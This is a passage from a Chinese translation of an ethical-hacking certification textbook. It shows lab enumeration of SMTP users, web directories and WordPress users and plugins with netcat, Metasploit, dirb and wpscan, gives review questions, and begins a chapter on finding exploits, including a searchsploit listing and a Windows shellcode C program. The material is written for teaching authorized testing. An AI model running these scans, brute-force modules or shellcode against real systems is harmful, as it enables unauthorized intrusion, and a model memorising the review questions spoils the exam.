SNMP 的一个优点是，它可能最常用于路由器和交换机等网络设备。由于这些设备可能没有传统的访问方式，也可能没有更传统的用户概念，因此使用 SNMP 从这些设备收集信息可能是一个很好的切入点。然而，与往常一样，像 SNMP 这样的协议通常会被防火墙禁用。换句话说，在您开始从网络设备请求 MIB 数据之前，通常需要通过防火墙或访问控制列表获得对网络设备的特定访问权限。正确实现和配置的 SNMP 代理不应该向任何请求的人提供敏感系统信息。

## 简单邮件传输协议

与许多其他协议一样，SMTP 使用一系列动词与服务器进行交互。客户端向 SMTP 服务器发送一个动词以及任何其他必要的参数。根据动词，服务器知道如何处理接收到的参数。然而，与其他更简单的协议不同，与 SMTP 的通信是一整个对话过程。在开始之前，您必须向服务器打招呼。这会告诉服务器您将要使用哪种 SMTP 变体。然后，您告诉服务器想要执行什么操作。根据您试图执行的功能，可能需要提供其他信息。这可能包括提供凭据。您可以在下面看到一个简单 SMTP 对话的示例。这是完全手动的，因此您可以看到协议级别的对话以及您可能如何与 SMTP 服务器交互。

### SMTP 对话

```
root@quiche:~# nc 192.168.86.52 25
220 bobbie.lan ESMTP Postfix (Ubuntu)
EHLO blah.com
250-bobbie.lan
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
```

### SMTP 对话（续）

```
250-DSN
250 SMTPUTF8
MAIL From: foo@foo.com
250 2.1.0 Ok
RCPT To: wubble@wubble.com
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
From: Goober
To: Someone
Date: today
Subject: Hi

Nothing really to say.
```

```
250 2.0.0 Ok: queued as 33471301389
```

一旦使用 HELO 或 EHLO 发起对话，您将获得服务器提供的功能列表。SMTP 中有几个功能可用于枚举用户或至少电子邮件地址。您可以看到其中之一是 VRFY，它可用于验证用户。并非所有邮件服务器都会启用此功能，因为它可以用于识别合法用户或电子邮件地址。这意味着攻击者和垃圾邮件发送者也可以使用它。这里您可以看到针对运行 Postfix 的本地邮件服务器使用 VRFY 的示例，Postfix 默认启用 VRFY。

### 测试 VRFY

```
root@quiche:~# nc 192.168.86.52 25
220 bobbie.lan ESMTP Postfix (Ubuntu)
EHLO blah.com
250-bobbie.lan
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250 SMTPUTF8
VRFY root@localhost
252 2.0.0 root@localhost
VRFY kilroy@localhost
252 2.0.0 kilroy@localhost
VRFY root
252 2.0.0 root
```

我们的尝试只返回了一个状态码，没有其他内容。没有文本指示服务器对我们的请求有何看法。这意味着我们需要查询获得的数值。与之前得到 250（表示成功）的情况不同，这次我们得到了状态码 252。这意味着地址无法验证，但服务器将尝试投递消息。虽然此服务器启用了 VRFY，但我们并未获得太多有用信息。此外，手动操作非常耗时。

我们可以手动完成。不过，Metasploit 又来救场了。smtp_enum 模块会读取一个字典列表，并自动完成您之前看到的手动操作。它将遍历字典列表中的所有用户，检查每个用户是否存在。测试用户是否存在有两种方式——使用 VRFY 命令或 MAIL TO 命令。在下面的清单中，您可以看到针对同一服务器的运行结果。这里使用的是 Metasploit 自带的默认字典列表，其中包含常见 Unix 用户名列表（unix_users.txt）。

### smtp_enum 运行

```
msf auxiliary(scanner/smtp/smtp_enum) > use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 192.168.86.52/32
RHOSTS => 192.168.86.52/32
msf auxiliary(scanner/smtp/smtp_enum) > run
```

```
[*] 192.168.86.52:25      - 192.168.86.52:25 Banner: 220 bobbie.lan ESMTP Postfix (Ubuntu)
[+] 192.168.86.52:25      - 192.168.86.52:25 Users found: , backup, bin, daemon,
games, gnats, irc, list, lp, mail, man, messagebus, news, nobody, postmaster,
proxy, sshd, sync, sys, syslog, uucp, www-data
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

您会注意到该模块列出了许多被发现的用户。基于 VRFY 命令返回了 252，且用户是系统上存在的用户这一事实，该模块并未使用 VRFY。相反，它使用的是 MAIL TO 命令。不存在的用户会导致 550 状态码。当尝试向存在的用户发送邮件时，将返回 250。根据这些结果，该模块返回有效用户名，因为列表中的 112 个用户中，只有 21 个被识别出来。

SMTP 服务器上还有另一个可用的命令，尽管它针对邮件列表。如果您找到属于某个域的邮件列表地址，可能可以使用 EXPN 来扩展邮件列表，这意味着识别邮件列表中的电子邮件地址，这些


都在该邮件列表上。不过，此函数要求服务器支持增强 SMTP（ESMTP）。您可以通过检查服务器是否接受 EHLO 来测试其是否支持 ESMTP，EHLO 是 HELO 的 ESMTP 版本。

## 基于 Web 的枚举

就枚举而言，在 Web 服务器上可能有几个我们想要查看的事项。第一个是识别网站中可用的目录。做这件事有很多不同的方法，尤其是如果您可以访问 Web 应用程序测试工具。即使您没有或不熟悉使用它们，也有简单的检查方法。您只需要一个可以提供潜在目录名称的单词列表，以及一个可以根据这些单词向 Web 服务器发出请求的工具——将每个单词附加到基础统一资源定位符（URL）。在此，您可以看到 dirb 程序的使用，它包含自己的常见目录名称单词列表。这是针对我自己网络上的一个 Web 服务器运行的，该服务器已将 WordPress 发行版解压到基础 Web 目录中。

## dirb 目录测试

```
root@quiche:~# dirb http://192.168.86.52/
--------------------------------------------------
DIRB v2.22
By The Dark Raver
--------------------------------------------------
START_TIME: Sun Aug 19 19:38:36 2018
URL_BASE: http://192.168.86.52/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
--------------------------------------------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.86.52/ ----
+ http://192.168.86.52/index.php (CODE:200|SIZE:418)
==> DIRECTORY: http://192.168.86.52/wp-admin/
==> DIRECTORY: http://192.168.86.52/wp-content/
==> DIRECTORY: http://192.168.86.52/wp-includes/
+ http://192.168.86.52/xmlrpc.php (CODE:200|SIZE:3065)
---- Entering directory: http://192.168.86.52/wp-admin/ ----
+ http://192.168.86.52/wp-admin/admin.php (CODE:200|SIZE:10531)
==> DIRECTORY: http://192.168.86.52/wp-admin/css/
==> DIRECTORY: http://192.168.86.52/wp-admin/images/
==> DIRECTORY: http://192.168.86.52/wp-admin/includes/
+ http://192.168.86.52/wp-admin/index.php (CODE:200|SIZE:7265)
==> DIRECTORY: http://192.168.86.52/wp-admin/js/
==> DIRECTORY: http://192.168.86.52/wp-admin/maint/
==> DIRECTORY: http://192.168.86.52/wp-admin/network/
==> DIRECTORY: http://192.168.86.52/wp-admin/user/
```

迄今为止，我们所做的是检查 Web 服务器上的已知或预期目录。使用单词列表并不能保证您能识别服务器上所有可用的目录。如果目录不在单词列表中，则不会被识别。我们可以转而使用另一个工具来帮助对目录名称进行模糊测试，即根据一组规则动态生成名称。到此为止，您可能会以为我们会转向 Metasploit，因为它非常有用。您是正确的。我们可以使用 brute_dirs 模块。使用此模块，您可以设置目录名称可能或应该呈现的格式。使用该模块将遍历所有与格式匹配的可能名称。在此，您可以看到模块可用的选项，随后是一组格式设置。我们将针对所有小写字符且长度在一到八个字符之间的单词进行测试。

## brute_dirs Metasploit 模块

```
msf > use auxiliary/scanner/http/brute_dirs
msf auxiliary(scanner/http/brute_dirs) > info
```

- 名称：HTTP 目录暴力扫描器
- 模块：auxiliary/scanner/http/brute_dirs
- 许可证：BSD 许可证
- 等级：普通

提供者：
et <et@metasploit.com>

基本选项：

| 名称 | 当前设置 | 必需 | 描述 |
| --- | --- | --- | --- |
| FORMAT | a,aa,aaa | 是 | 预期的目录格式（a 表示字母，d 表示数字，A 表示大写字母） |
| PATH | / | 是 | 用于识别目录的路径 |
| Proxies | | 否 | 格式为 type:host:port[,type:host:port][...] 的代理链 |
| RHOSTS | 192.168.86.52 | 是 | 目标地址范围或 CIDR |
| identifier | | | |
| RPORT | 80 | 是 | 目标端口（TCP） |
| SSL | false | 否 | 为外出连接协商 SSL/TLS |
| THREADS | 1 | 是 | 并发线程数 |
| VHOST | | 否 | HTTP 服务器虚拟主机 |

描述：
此模块通过在给定目录路径中暴力破解名称，来识别有趣目录的存在。

```
msf auxiliary(scanner/http/brute_dirs) > set FORMAT a,aa,aaa,aaaa,aaaaa,aaaaaa,aaaaaaa,aaaaaaaa
FORMAT => a,aa,aaa,aaaa,aaaaa,aaaaaa,aaaaaaa,aaaaaaaa
msf auxiliary(scanner/http/brute_dirs) > run
```

> [*] 使用代码 '404' 表示未找到。

和往常一样，Metasploit 拥有大量可用于基于 Web 的枚举的模块，而不仅仅是识别 Web 服务器上的目录。当您开始使用网站，尤其是 Web 应用程序时，您会遇到许多开源应用程序，因为它们使用非常广泛而广为人知。例如，您可能会发现一个 WordPress 安装。再次使用 Metasploit，我们可以枚举 WordPress 安装中的用户。wordpress_login_enum 模块可以接受用户文件或密码文件，或者您可以提供单个用户名配合密码文件，或单个密码配合用户名文件。模块中还有许多其他可设置的选项，提供了大量功能。在此，您可以看到针对本地 WordPress 安装运行该模块。

## 在 WordPress 中枚举用户名

```
msf auxiliary(scanner/http/wordpress_login_enum) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(scanner/http/wordpress_login_enum) > set RHOSTS 192.168.86.52
RHOSTS => 192.168.86.52
msf auxiliary(scanner/http/wordpress_login_enum) > run
```

```
[*] / - WordPress Version 4.9.8 detected
[*] 192.168.86.52:80 - / - WordPress User-Enumeration - Running User Enumeration
[+] / - Found user 'kilroy' with id 1
[+] / - Usernames stored in:
/root/.msf4/loot/20180819205530_default_192.168.86.52_wordpress.users_790698.txt
[*] 192.168.86.52:80 - / - WordPress User-Validation - Running User Validation
[*] 192.168.86.52:80 - [1/0] - / - WordPress Brute Force - Running Bruteforce
[*] / - Brute-forcing previously found accounts...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

您会注意到它提到将用户名存储在 root 用户主目录下的一个文件中，root 用户是 msfconsole 运行所在的用户。Metasploit 也会存储此信息。每当您想要查看已获取的诸如凭据等信息时，可以在 msfconsole 中运行 loot 命令。您可以在此处看到此命令的结果。

## 在 msfconsole 中列出战利品

```
msf auxiliary(scanner/http/wordpress_login_enum) > loot
```

| 主机 | 服务 | 类型 | 名称 | 内容 | 信息 | 路径 |
| ---- | ------- | ---- | ---- | ------- | ---- | ---- |
| 192.168.86.52 | | wordpress.users | 192.168.86.52_wordpress_users.txt | text/plain | | /root/.msf4/loot/20180819205530_default_192.168.86.52_wordpress_users_790698.txt |

说到 WordPress，我们不必依赖 Metasploit。同样，我们可以依赖 Kali Linux，因为它免费且易于使用，更不用说有数百种可用工具这一事实了。Kali 自带 wpscan 程序，可用于枚举不仅用户，还包括主题和插件。说到像 WordPress 这样的 Web 应用程序，了解插件也很有用，因为它们也可能引入漏洞。毕竟，它们确实包含额外代码。在下面的清单中，您可以看到 wpscan 的一次运行，其中我们枚举插件。您还会注意到，在运行过程中，它检测到了配置的用户。

## 在 WordPress 中枚举插件

```
root@quiche:~# wpscan --url http://192.168.86.52 --enumerate p
------------------------------------------------------------
|
| __ /
| / \__ \ / \__ \ |
| \ \ / / | | | | | |
| \ V / | |__| | | | | | | |
| \_/ |____/|____/|_| |_| |_|
```


## 在 WordPress 中枚举插件（续）

WordPress 安全扫描器，由 WPScan 团队开发
版本 2.9.4

由 Sucuri 赞助 - https://sucuri.net
@_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_

```
[+] URL: http://192.168.86.52/
[+] Started: Sun Aug 19 21:20:59 2018

[+] Interesting header: LINK: <http://192.168.86.52/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.29 (Ubuntu)
[+] XML-RPC Interface available under: http://192.168.86.52/xmlrpc.php [HTTP 405]
[+] Found an RSS Feed: http://192.168.86.52/index.php/feed/ [HTTP 200]
[!] Detected 1 user from RSS feed:
+--------+
| Name   |
+--------+
| kilroy |
+--------+
[!] Upload directory has directory listing enabled: http://192.168.86.52/wp-content/uploads/
[!] Includes directory has directory listing enabled: http://192.168.86.52/wp-includes/

[+] Enumerating WordPress version ...

[+] WordPress version 4.9.8 (Released on 2018-08-02) identified from advanced fingerprinting, meta generator, links opml, stylesheets numbers

[+] WordPress theme in use: twentyseventeen - v1.7

[+] Name: twentyseventeen - v1.7
| Latest version: 1.7 (up to date)
| Last updated: 2018-08-02T00:00:00.000Z
| Location: http://192.168.86.52/wp-content/themes/twentyseventeen/
| Readme: http://192.168.86.52/wp-content/themes/twentyseventeen/README.txt
| Style URL: http://192.168.86.52/wp-content/themes/twentyseventeen/style.css
| Theme Name: Twenty Seventeen
| Theme URI: https://wordpress.org/themes/twentyseventeen/
| Description: Twenty Seventeen brings your site to life with header video and
immersive featured images. With a...
| Author: the WordPress team
| Author URI: https://wordpress.org/

[+] Enumerating installed plugins (only ones marked as popular) ...

Time: 00:00:00 <===================> (1494 / 1494) 100.00% Time: 00:00:00

[+] We found 5 plugins:

[+] Name: akismet - v4.0.8
| Latest version: 4.0.8 (up to date)
| Last updated: 2018-06-19T18:18:00.000Z
| Location: http://192.168.86.52/wp-content/plugins/akismet/
| Readme: http://192.168.86.52/wp-content/plugins/akismet/readme.txt

[+] Name: gutenberg - v3.6.1
| Last updated: 2018-08-17T15:50:00.000Z
| Location: http://192.168.86.52/wp-content/plugins/gutenberg/
| Readme: http://192.168.86.52/wp-content/plugins/gutenberg/readme.txt
| Changelog: http://192.168.86.52/wp-content/plugins/gutenberg/changelog.txt
[!] The version is out of date, the latest version is 3.6.2
[!] Directory listing is enabled: http://192.168.86.52/wp-content/plugins/gutenberg/

[+] Name: jetpack - v6.4.2
| Latest version: 6.4.2 (up to date)
| Last updated: 2018-08-10T14:33:00.000Z
| Location: http://192.168.86.52/wp-content/plugins/jetpack/
| Readme: http://192.168.86.52/wp-content/plugins/jetpack/readme.txt
| Changelog: http://192.168.86.52/wp-content/plugins/jetpack/changelog.txt
[!] Directory listing is enabled: http://192.168.86.52/wp-content/plugins/jetpack/

[+] Name: tablepress - v1.9
| Latest version: 1.9 (up to date)
| Last updated: 2017-12-03T19:57:00.000Z
| Location: http://192.168.86.52/wp-content/plugins/tablepress/
| Readme: http://192.168.86.52/wp-content/plugins/tablepress/readme.txt
[+] Name: wordfence - v7.1.10
| Latest version: 7.1.10 (up to date)
| Last updated: 2018-07-31T17:48:00.000Z
| Location: http://192.168.86.52/wp-content/plugins/wordfence/
| Readme: http://192.168.86.52/wp-content/plugins/wordfence/readme.txt
[+] Finished: Sun Aug 19 21:21:06 2018
[+] Elapsed time: 00:00:06
[+] Requests made: 1588
[+] Memory used: 103.09 MB
```

除了用户和插件枚举之外，wpscan 还发现了 WordPress 安装中的一些问题，这些问题日后可供使用。它还识别了 HTTP 通信中的一个头部，觉得它很有趣，因为它包含了产品名称以及版本和操作系统。所有这些都是有用的信息。

在 Web 应用程序方面，我们能枚举的东西远不止这些。我们可以扫描网络以查找不同的 Web 应用程序，或者尝试枚举用户。查找 Web 服务器上的目录也很有用，因为它可以帮助我们识别应用程序以及可能可用的数据。

## 摘要

枚举是收集大量信息的过程，这些信息在网络协议栈中比 IP 地址和端口更上层。此时，我们正在上移到应用层。我们要寻找的内容包括用户名、用户名所在的位置、网络共享以及任何其他可能获取的立足点。为了完成这项枚举工作，我们可以使用许多协议和工具。第一个是 nmap，因为我们需要超越仅识别开放端口。我们需要识别正在使用的服务，包括所使用的软件。nmap 的一项非常有用的功能，尤其是在这种情况下，就是其脚本功能。这包括，尤其是，所有内置于 nmap 中的脚本。

说到 nmap，有一些脚本不仅可以用于探测服务以获取更多详细信息，还可以利用许多枚举功能。我们可以花时间研究的一个协议是 SMB 协议。Nmap 包含许多脚本，用于探测使用 SMB 的系统。这包括识别可能开放的共享，以及可能使用 SMB 可访问的用户和其他管理相关信息。

SMB 依赖于 RPC。NFS（由 Sun Microsystems 开发的文件共享协议）也使用 RPC。我们可以使用 nmap 枚举 RPC 服务，因为这些服务会动态注册到映射或注册服务中。探测 RPC 服务器将提供有关导出 RPC 功能的程序和端口的详细信息。如果程序是用 Java 编写的，它将使用 RMI 而不是 portmap 或 SunRPC 协议。

另一个可用于多种协议枚举的程序是 Metasploit。Metasploit 自带大量模块，可用于枚举 SMB 上的共享和用户、使用 SunRPC 的服务以及许多其他协议。如果存在可枚举的信息，Metasploit 可能有一个可运行的模块。这包括用于通过 SMTP 枚举邮件服务器中用户的模块。您也可以使用 SNMP 枚举信息。当然，说到 SNMP，您也可以使用 snmpwalk 等工具。

虽然 Metasploit 可以跨许多不同的协议用于查找不同的有用信息，但它不是您可以使用的唯一工具。例如，有用于从 SMB 收集信息的内置工具。您更可能在 Windows 系统上找到这些工具，但也可以在 Linux 系统上找到工具，尤其是如果您安装了 Samba。Samba 是一个在类 Unix 系统上实现 SMB 协议的软件包。还有许多可用于不同协议的开源工具。如果您愿意使用 Linux，Kali Linux 是一个包含数百种安全相关工具的发行版。

在执行此枚举操作时，您应该做笔记，以便在继续进行时有参考依据。使用 Metasploit 的一个优点（并非为了过度宣传这款软件）是，它使用数据库后端，会自动存储大量信息。这当然适用于服务和端口，也适用于已识别的用户名。这并不是说 Metasploit 可以用于存储您测试的每一个方面，但您可以根据需要查询 Metasploit 数据库来稍后查阅详细信息。

## 复习问题

您可以在附录中找到答案。

- 1. RPC 主要用于什么？
- A. 进程间通信
- B. 进程间信号量
- C. 远程方法调用
- D. 按需分页

- 2. 如果使用 enum4linux，您将尝试枚举什么？
- A. 过程
- B. 基于 Linux 的服务
- C. 共享和/或用户
- D. 内存利用率

- 3. 如何使用 SNMPv1 进行身份验证？
- A. 用户名/密码
- B. 哈希
- C. 公共字符串
- D. 团体字符串

- 4. 您会使用什么 SMTP 命令来获取邮件列表中的用户列表？
- A. EXPD
- B. VRFY
- C. EXPN
- D. VRML

- 5. 您会使用实用工具 dirb 进行什么类型的枚举？
- A. 目录列表
- B. 目录枚举
- C. 蛮力拨号
- D. 用户目录分析

- 6. SNMP 中的数据描述称为什么？
- A. 基于管理的信息
- B. 数据结构定义
- C. 可扩展标记语言
- D. 管理信息库


**7.** Java 程序在通过网络共享过程时，向什么进程标识自身？
A. RMI 注册表
B. RMI 映射器
C. RMI 数据库
D. RMI 进程

**8.** 你正与同事协作，看到他们使用 VRFY 命令与电子邮件服务器交互。你的同事在做什么？
A. 验证 SMTP 命令
B. 验证邮件列表
C. 验证电子邮件地址
D. 验证服务器配置

**9.** SMB 协议用于什么？
A. 使用 NFS 进行数据传输
B. Windows 系统上的数据传输
C. 电子邮件附件的数据传输
D. Windows 注册表更新的数据传输

**10.** 以下哪个是 Windows 上用于通过 SMB 收集信息的内置程序？
A. nmblookup
B. smbclient
C. Metasploit
D. nbstat

**11.** 如果尝试使用 VRFY 命令失败，你会得到什么状态码？
A. 550
B. 501
C. 250
D. 200

**12.** 你会使用哪个程序来枚举服务？
A. smbclient
B. Nmap
C. enum4linux
D. snmpwalk

13. SNMP 的哪个版本引入了加密和基于用户的身份验证？
A. 1
B. 2
C. 2c
D. 3

14. 使用 wpscan 可以在 WordPress 站点上枚举以下哪项？
A. 插件
B. 文章
C. 管理员
D. 版本

15. 以下哪个工具允许你根据识别为开放的端口创建自己的枚举函数？
A. Metasploit
B. Nmap
C. Netcat
D. nbstat

16. 启用 Windows 文件共享所需的底层功能是什么？
A. 网络文件系统
B. 公共 Internet 文件系统
C. 远程过程调用
D. 远程方法调用

17. IPC$ 共享用于什么？
A. 进程管道
B. 进程间构建
C. 远程进程管理
D. 进程间通信

18. Java 程序需要使用什么工具来实现远程进程通信？
A. JRE
B. rmic
C. rmir
D. JDK

19. 以下哪个在系统之间传递对象？
A. SunRPC
B. SMB
C. RMI
D. Nmap

20. 如果你需要跨多个服务枚举数据，并存储数据以便以后检索，你会使用什么工具？
A. Metasploit
B. Nmap
C. RMI
D. Postgres


# 第 7 章
# 系统黑客攻击

**本章将涵盖以下 CEH 考试主题：**

- 漏洞
- 漏洞利用工具
- 编程语言
- 操作环境
- 验证程序
- 技术评估方法


这是许多人认为“黑客攻击”或渗透测试所涉及内容的所在。当然，系统黑客攻击是一个重要元素，因为这是你证明漏洞确实存在的地方，但它不是唯一的元素。渗透测试，或称为道德黑客攻击，不仅仅是关于闯入系统——掠夺和劫掠。请记住，目标始终是帮助组织改善其安全态势。利用漏洞获取系统访问权限是实现这一目标的一种方式。闯入系统既证明了漏洞的存在，也为其他系统提供了潜在的攻击路径。

牢记最终目标，并在列出漏洞后，我们可以开始寻找漏洞利用。方法有多种，效果各有差异。一种方法可以直接在运行测试的系统上执行。定位漏洞利用对于能够针对目标系统运行它们以获取访问权限至关重要。一旦获得访问权限，你将进入后期利用阶段。

你会想要获取密码并尝试破解这些密码。这能起到两个作用。首先，它表明存在可以破解的密码——强密码在不花费大量时间和计算资源的情况下不应该是可破解的。其次，如果你能轻松破解密码，那么它就不够强，应该更改。其次，用户名和密码是你可以用于其他系统的凭据。

仅仅进入一个系统可能收获不大。当你运行漏洞利用时，你只拥有服务运行所用用户被授予的权限。通常，这是一组受限的权限。因此，你可能无法做太多事情。至少，如果没有获得更高级别的特权，你可能无法做太多事情。这意味着你需要一个本地漏洞，即仅在你登录系统时才能访问或运行的软件中存在的漏洞。如果这些特权提升操作成功，将为你提供另一层可供利用的信息和访问权限。

攻击者通常会试图掩盖其在系统中的存在。如果你确实以红队身份工作，目标的运营团队正在接受检测和响应能力测试，你也会想要掩盖痕迹。你可以采取几个步骤来隐藏自己的存在。如果有你最初入侵系统的证据，这一点尤其正确。

### 搜索漏洞利用

你已经完成了枚举和扫描以识别漏洞。因此，你有一份看似有希望的漏洞列表。你需要利用漏洞的方法，即使你能做到，你也没有时间自己编写漏洞利用程序。不妨利用他人的工作来获取漏洞利用程序，以便清楚地演示漏洞。毕竟，运行漏洞利用的主要原因之一就是如此。你需要证明漏洞是可利用的，以便在向客户/雇主报告时使用。运行漏洞利用的另一个原因是获得额外的访问层，以便你可以跳转到其他网络去寻找更多漏洞。

成为道德黑客的一部分是确保你有权限且没有造成任何危害。然而，任何道德黑客的目标都应该是改善安全。这是一个重要的观点。入侵客户网络以尽可能多地攻破系统，而没有为客户提供改善其安全态势的路径，这并不符合道德。请记住，你的目标始终是改善安全，而不仅仅是看你能造成多少损害。

你可能会想在哪里能找到大量漏洞利用程序。一个很好的资源是 exploit-db.org。这是一个研究人员和开发者发布针对已识别漏洞有效的漏洞利用代码和概念验证代码的网站。虽然这些漏洞利用通常会进入 Metasploit 等工具，但并非总是如此。尤其是当漏洞利用只是尚未完全实现且可能无法最终利用的概念验证时，情况更是如此。如果你查看图 7.1，可以看到当前漏洞代码列表。你看到的只是远程漏洞列表。公平地说，并非所有这些漏洞利用都符合你对漏洞利用的通常想象，如果你认为漏洞利用是能给你提供 shell 的东西。例如，在列表顶部，你会看到一个链接，指向一个用于枚举 OpenSSH 7.7 安装中用户名的 Python 脚本。

### 图 7.1 exploit-db.org 上的远程漏洞列表

| 添加日期 | D | A | V | 标题 | 平台 | 作者 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 2018-08-21 | - | - | - | OpenSSH 7.7 - 用户名枚举 | Linux | Justin Gardner |
| 2018-08-20 | - | - | - | EasyLogin Pro 1.3.0 - 'Encryptor.php' 反序列化远程代码执行 | PHP | mr_me |
| 2018-08-20 | - | - | - | SEIG Modbus 3.4 - 远程代码执行 | Windows_x86 | Alejandro... |
| 2018-08-20 | - | - | - | SEIG SCADA 系统 9 - 远程代码执行 | Windows_x86 | Alejandro... |
| 2018-08-17 | - | - | - | OpenSSH 2.3 < 7.7 - 用户名枚举 (PoC) | Linux | Matthew Daley |
| 2018-08-14 | - | - | - | Cloudme 1.9 - 缓冲区溢出 (DEP) (Metasploit) | Windows_x86-64 | Raymond... |
| 2018-08-13 | - | - | - | Oracle Weblogic Server - 反序列化远程代码执行 (Metasploit) | Windows | Metasploit |

你看到的只是漏洞利用的一个类别。你还会看到 Web 应用程序漏洞利用、拒绝服务漏洞利用和本地漏洞利用，后者包括特权提升漏洞利用。虽然远程漏洞利用可能看起来更诱人——毕竟，谁不喜欢攻破系统呢？——但利用系统远不止于远程入侵。事实上，渗透网络通常有更简单的方法。在撰写本文时，exploit-db.org 已存档超过 39,000 个漏洞利用程序。


## 使用 searchsploit 查找漏洞利用

这里你会发现大部分是用 Python 等语言编写的脚本。如果你懂 Python，可以阅读它们。无论漏洞利用程序是用什么编写的，请确保事先在安全的地方进行测试。这将让你清楚地了解它在做什么以及可能产生的影响。

除了打开浏览器浏览网站，可能还有更简单的方法来获取漏洞利用程序。Kali Linux 自带漏洞利用程序仓库，以及可用于从命令行搜索仓库的工具。不过，你并不局限于仅使用 Kali。整个仓库是一个可以克隆并在任何地方使用的 Git 仓库。例如，在 Manjaro Linux 上运行 Arch Strike 时，有 exploitdb 仓库的软件包，因此你不必运行 Kali。其他发行版也包含此软件包。你也可以直接克隆他们的 git 仓库。不过，你获得的不仅仅是仓库。如果情况如此，你就得想办法找到你要找的漏洞利用程序。相反，有一个 shell 脚本可以查找仓库中与你的搜索参数匹配的文件。例如，在下面的代码清单中，你可以看到针对 OpenSSH 漏洞利用的搜索。这受到了当前 OpenSSH 枚举漏洞的启发。使用的程序是 searchsploit。如所示，你可以搜索关键字，也可以指定关键字的搜索位置，例如在标题中。你也可以执行区分大小写的搜索或精确匹配搜索。这全取决于你对所查找内容的了解。

```
kilroy@savagewood $ searchsploit openssh
```

| 漏洞利用标题 | 路径 |
| :--- | :--- |
| | (/usr/share/exploitdb-git/) |
| Debian OpenSSH - (已验证) R | exploits/linux/remote/6094.txt |
| Dropbear / OpenSSH 服务器 - 'MAX_U | exploits/multiple/dos/1572.pl |
| FreeBSD OpenSSH 3.5p1 - 远程 Com | exploits/freebsd/remote/17462.txt |
| Novell Netware 6.5 - OpenSSH Remot | exploits/novell/dos/14866.txt |
| OpenSSH 1.2 - '.scp' 文件 Create/O | exploits/linux/remote/20253.sh |
| OpenSSH 2.x/3.0.1/3.0.2 - Channel | exploits/unix/remote/21314.txt |
| OpenSSH 2.x/3.x - Kerberos 4 TGT/A | exploits/linux/remote/21402.txt |
| OpenSSH 3.x - Challenge-Response B | exploits/unix/remote/21578.txt |
| OpenSSH 3.x - Challenge-Response B | exploits/unix/remote/21579.txt |
| OpenSSH 4.3 p1 - 重复块 | exploits/multiple/dos/2444.sh |
| OpenSSH 6.8 < 6.9 - 'PTY' 本地 Pr | exploits/linux/local/41173.c |
| OpenSSH 7.2 - 拒绝服务 | exploits/linux/dos/40888.py |
| OpenSSH 7.2p1 - (已验证) xa | exploits/multiple/remote/39569.py |
| OpenSSH 7.2p2 - 用户名 Enumerati | exploits/linux/remote/40136.py |
| OpenSSH < 6.6 SFTP (x64) - Command | exploits/linux_x86-64/remote/45000.c |
| OpenSSH < 6.6 SFTP - Command Execu | exploits/linux/remote/45001.py |
| OpenSSH < 7.4 - 'UsePrivilegeSepa | exploits/linux/local/40962.txt |
| OpenSSH < 7.4 - agent Protocol Arb | exploits/linux/remote/40963.txt |
| OpenSSH/PAM 3.6.1p1 - 'gosh.sh' R | exploits/linux/remote/26.sh |
| OpenSSH/PAM 3.6.1p1 - 远程用户 | exploits/linux/remote/25.c |
| OpenSSHd 7.2p2 - 用户名 Enumerat | exploits/linux/remote/40113.txt |
| Portable OpenSSH 3.6.1p-PAM/4.1-Su | exploits/multiple/remote/3303.sh |
| glibc-2.2 / openssh-2.3.0p1 / glib | exploits/linux/local/258.sh |

Shellcodes: 无结果

仓库分为漏洞利用程序和 shellcode。Shellcode 是你放入整体漏洞利用代码中，以便在目标系统上获得 shell 访问权限的内容。其余部分涉及传递并将 shellcode 放置到正确位置。Shellcode 通常是汇编语言操作码（opcodes）的十六进制表示，不过在这里你也可能找到仅包含汇编语言代码的文件，这些文件需要转换为 opcodes。仓库中的所有 shellcode 都按操作系统和处理器类型分类。例如，仓库中有一个名为 windows_x86-64 的目录。下面的代码清单是包含在该目录中的 C 程序示例。没有注释说明它究竟做什么。针对文件名运行 searchsploit 显示它针对 Windows 7 操作系统，但除此之外没有更多信息。有趣的是，顺便提一下，在 Linux 系统上编译并运行它会生成“检测到栈溢出”的错误，程序会崩溃。

### exploit-db 仓库中的 shellcode

```c
#include <stdio.h>

char shellcode[] =

"\x31\xC9" //xor ecx, ecx
"\x64\x8b\x71\x30" //mov esi, [fs:ecx+0x30]
"\x8B\x76\x0C" //mov esi, [esi+0x0C]
"\x8B\x76\x1C" //mov esi, [esi+0x1c]
"\x8B\x06" //mov eax, [esi]
"\x8B\x86\x08\x00" //mov ebp, [eax+0x08]
"\x68\x11\x11\x11\x11" //push 0x11111111
"\x66\x68\x11\x11" //push word 0x1111
"\x5B" //pop ebx
"\x53" //push ebx
"\x55" //push ebp
"\x5B" //pop ebx
"\x66\x81\xc3\x4b\x48\xb5" //add bx, 0x854b
"\xFF\xD3" //call ebx
"\xEB\xEA"; //jmp short

int main(int argc, char **argv) {
    int *ret;
    ret = (int *)&ret + 2;
    (*ret) = (int) shellcode;
}
```

网站 exploit-db.com 不是查找漏洞利用程序的唯一地方，但它非常方便。它也是可用的最佳合法网站，而且它自带搜索工具，非常实用。如果你想了解有关漏洞利用及其开发的大量知识，这是一个不错的去处。

不过，你并不局限于仅使用网站。有发布漏洞公告的邮件列表。有时，随漏洞公告一起，你会收到概念验证代码。你能用代码走多远，完全取决于研究人员、漏洞和软件。有时，你得到的只是一个证明漏洞可以被触发的演示，但你可能无法比之前获得更多的远程系统访问权限。

